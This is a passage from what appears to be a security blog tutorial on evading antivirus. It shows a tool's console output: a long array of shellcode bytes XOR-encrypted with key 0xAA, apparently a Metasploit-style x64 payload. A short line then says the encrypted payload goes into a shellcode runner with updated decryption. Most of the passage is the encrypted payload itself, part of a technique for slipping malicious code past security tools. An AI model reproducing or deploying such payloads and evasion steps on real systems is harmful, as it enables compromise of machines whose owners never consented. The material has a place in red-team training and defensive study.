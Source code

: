 
This will XOR encrypt the byte array using a hex key of “0xAA” and print the output to the console.

```solid
C:UsershackerDesktop>.XorCrypt.exe
The XOR payload is: 0x56, 0xe2, 0x29, 0x4e, 0x5a, 0x42, 0x66, 0xaa, 0xaa, 0xaa, 0xeb, 0xfb, 0xeb, 0xfa, 0xf8, 0xfb, 0xfc, 0xe2, 0x9b, 0x78, 0xcf, 0xe2, 0x21, 0xf8, 0xca, 0xe2, 0x21, 0xf8, 0xb2, 0xe2, 0x21, 0xf8, 0x8a, 0xe7, 0x9b, 0x63, 0xe2, 0x21, 0xd8, 0xfa, 0xe2, 0xa5, 0x1d, 0xe0, 0xe0, 0xe2, 0x9b, 0x6a, 0x06, 0x96, 0xcb, 0xd6, 0xa8, 0x86, 0x8a, 0xeb, 0x6b, 0x63, 0xa7, 0xeb, 0xab, 0x6b, 0x48, 0x47, 0xf8, 0xeb, 0xfb, 0xe2, 0x21, 0xf8, 0x8a, 0x21, 0xe8, 0x96, 0xe2, 0xab, 0x7a, 0xcc, 0x2b, 0xd2, 0xb2, 0xa1, 0xa8, 0xa5, 0x2f, 0xd8, 0xaa, 0xaa, 0xaa, 0x21, 0x2a, 0x22, 0xaa, 0xaa, 0xaa, 0xe2, 0x2f, 0x6a, 0xde, 0xcd, 0xe2, 0xab, 0x7a, 0x21, 0xe2, 0xb2, 0xfa, 0xee, 0x21, 0xea, 0x8a, 0xe3, 0xab, 0x7a, 0x49, 0xfc, 0xe2, 0x55, 0x63, 0xe7, 0x9b, 0x63, 0xeb, 0x21, 0x9e, 0x22, 0xe2, 0xab, 0x7c, 0xe2, 0x9b, 0x6a, 0xeb, 0x6b, 0x63, 0xa7, 0x06, 0xeb, 0xab, 0x6b, 0x92, 0x4a, 0xdf, 0x5b, 0xe6, 0xa9, 0xe6, 0x8e, 0xa2, 0xef, 0x93, 0x7b, 0xdf, 0x72, 0xf2, 0xee, 0x21, 0xea, 0x8e, 0xe3, 0xab, 0x7a, 0xcc, 0xeb, 0x21, 0xa6, 0xe2, 0xee, 0x21, 0xea, 0xb6, 0xe3, 0xab, 0x7a, 0xeb, 0x21, 0xae, 0x22, 0xeb, 0xf2, 0xe2, 0xab, 0x7a, 0xeb, 0xf2, 0xf4, 0xf3, 0xf0, 0xeb, 0xf2, 0xeb, 0xf3, 0xeb, 0xf0, 0xe2, 0x29, 0x46, 0x8a, 0xeb, 0xf8, 0x55, 0x4a, 0xf2, 0xeb, 0xf3, 0xf0, 0xe2, 0x21, 0xb8, 0x43, 0xe1, 0x55, 0x55, 0x55, 0xf7, 0xe2, 0x9b, 0x71, 0xf9, 0xe3, 0x14, 0xdd, 0xc3, 0xc4, 0xc3, 0xc4, 0xcf, 0xde, 0xaa, 0xeb, 0xfc, 0xe2, 0x23, 0x4b, 0xe3, 0x6d, 0x68, 0xe6, 0xdd, 0x8c, 0xad, 0x55, 0x7f, 0xf9, 0xf9, 0xe2, 0x23, 0x4b, 0xf9, 0xf0, 0xe7, 0x9b, 0x6a, 0xe7, 0x9b, 0x63, 0xf9, 0xf9, 0xe3, 0x10, 0x90, 0xfc, 0xd3, 0x0d, 0xaa, 0xaa, 0xaa, 0xaa, 0x55, 0x7f, 0x42, 0xa4, 0xaa, 0xaa, 0xaa, 0x9b, 0x93, 0x98, 0x84, 0x9b, 0x9c, 0x92, 0x84, 0x9b, 0x84, 0x98, 0x9a, 0x93, 0xaa, 0xf0, 0xe2, 0x23, 0x6b, 0xe3, 0x6d, 0x6a, 0x11, 0xab, 0xaa, 0xaa, 0xe7, 0x9b, 0x63, 0xf9, 0xf9, 0xc0, 0xa9, 0xf9, 0xe3, 0x10, 0xfd, 0x23, 0x35, 0x6c, 0xaa, 0xaa, 0xaa, 0xaa, 0x55, 0x7f, 0x42, 0xd0, 0xaa, 0xaa, 0xaa, 0x85, 0xf9, 0xfd, 0xfb, 0xdf, 0xc9, 0xdb, 0xf3, 0x9f, 0xc8, 0x9a, 0xc5, 0xc7, 0xf9, 0xd3, 0xce, 0xe0, 0xfb, 0x9b, 0xeb, 0xda, 0xce, 0xcd, 0xed, 0xf9, 0xdd, 0xf2, 0xc3, 0xeb, 0xc8, 0xfa, 0xfa, 0xc0, 0x99, 0xe2, 0x98, 0x98, 0x9d, 0xe2, 0xc2, 0xe3, 0xfd, 0xeb, 0xf0, 0xff, 0xfd, 0xcc, 0xc3, 0xc5, 0xe8, 0x9c, 0xec, 0xde, 0xd3, 0xed, 0xdf, 0xe1, 0x87, 0xfb, 0xc4, 0xf2, 0xe4, 0xee, 0xee, 0xc3, 0xfd, 0xd3, 0x9f, 0xcb, 0x92, 0xdc, 0xf8, 0xe5, 0xe2, 0xde, 0xfd, 0xef, 0xce, 0xc8, 0xf2, 0xf5, 0xdd, 0xef, 0xc9, 0xfe, 0xfa, 0xe9, 0xe7, 0xf9, 0xf3, 0xc3, 0x9a, 0xec, 0xc8, 0xf2, 0xed, 0xf9, 0xfa, 0xd8, 0xcf, 0xc0, 0xfa, 0xe1, 0xf8, 0x9f, 0xdf, 0xe4, 0xf5, 0xe8, 0xfd, 0xfb, 0xf3, 0x98, 0xdc, 0xc5, 0xd0, 0x98, 0xfe, 0xfd, 0xe1, 0xd2, 0xaa, 0xe2, 0x23, 0x6b, 0xf9, 0xf0, 0xeb, 0xf2, 0xe7, 0x9b, 0x63, 0xf9, 0xe2, 0x12, 0xaa, 0x98, 0x02, 0x2e, 0xaa, 0xaa, 0xaa, 0xaa, 0xfa, 0xf9, 0xf9, 0xe3, 0x6d, 0x68, 0x41, 0xff, 0x84, 0x91, 0x55, 0x7f, 0xe2, 0x23, 0x6c, 0xc0, 0xa0, 0xf5, 0xe2, 0x23, 0x5b, 0xc0, 0xb5, 0xf0, 0xf8, 0xc2, 0x2a, 0x99, 0xaa, 0xaa, 0xe3, 0x23, 0x4a, 0xc0, 0xae, 0xeb, 0xf3, 0xe3, 0x10, 0xdf, 0xec, 0x34, 0x2c, 0xaa, 0xaa, 0xaa, 0xaa, 0x55, 0x7f, 0xe7, 0x9b, 0x6a, 0xf9, 0xf0, 0xe2, 0x23, 0x5b, 0xe7, 0x9b, 0x63, 0xe7, 0x9b, 0x63, 0xf9, 0xf9, 0xe3, 0x6d, 0x68, 0x87, 0xac, 0xb2, 0xd1, 0x55, 0x7f, 0x2f, 0x6a, 0xdf, 0xb5, 0xe2, 0x6d, 0x6b, 0x22, 0xb9, 0xaa, 0xaa, 0xe3, 0x10, 0xee, 0x5a, 0x9f, 0x4a, 0xaa, 0xaa, 0xaa, 0xaa, 0x55, 0x7f, 0xe2, 0x55, 0x65, 0xde, 0xa8, 0x41, 0x00, 0x42, 0xff, 0xaa, 0xaa, 0xaa, 0xf9, 0xf3, 0xc0, 0xea, 0xf0, 0xe3, 0x23, 0x7b, 0x6b, 0x48, 0xba, 0xe3, 0x6d, 0x6a, 0xaa, 0xba, 0xaa, 0xaa, 0xe3, 0x10, 0xf2, 0x0e, 0xf9, 0x4f, 0xaa, 0xaa, 0xaa, 0xaa, 0x55, 0x7f, 0xe2, 0x39, 0xf9, 0xf9, 0xe2, 0x23, 0x4d, 0xe2, 0x23, 0x5b, 0xe2, 0x23, 0x70, 0xe3, 0x6d, 0x6a, 0xaa, 0x8a, 0xaa, 0xaa, 0xe3, 0x23, 0x53, 0xe3, 0x10, 0xb8, 0x3c, 0x23, 0x48, 0xaa, 0xaa, 0xaa, 0xaa, 0x55, 0x7f, 0xe2, 0x29, 0x6e, 0x8a, 0x2f, 0x6a, 0xde, 0x18, 0xcc, 0x21, 0xad, 0xe2, 0xab, 0x69, 0x2f, 0x6a, 0xdf, 0x78, 0xf2, 0x69, 0xf2, 0xc0, 0xaa, 0xf3, 0x11, 0x4a, 0xb7, 0x80, 0xa0, 0xeb, 0x23, 0x70, 0x55, 0x7f 
```

![](http://loganelliottinfosec.com/wp-content/uploads/2023/10/XorCrypt-output.png)

Now, we will take the new custom XOR payload and put it within the shellcode runner, ensuring that we also update the decryption functionality:
